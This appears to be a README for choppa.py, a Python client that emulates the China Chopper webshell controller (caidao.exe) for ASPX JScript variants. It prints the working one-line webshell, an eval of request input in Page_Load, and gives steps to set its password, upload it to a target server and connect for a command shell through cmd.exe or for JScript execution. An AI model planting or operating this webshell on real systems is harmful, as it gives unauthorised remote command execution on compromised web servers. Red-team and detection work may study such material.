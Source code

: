 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>
```

Emulated caidao.exe features include:
- Mode 1: Virtual terminal emulation with Jscript and `cmd.exe /c`
- Mode 2: Jscript execution

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password value

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>
```

2. Upload ASPX webshell on target
3. Execute choppa.py with chosen mode number `python3 choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m 1`
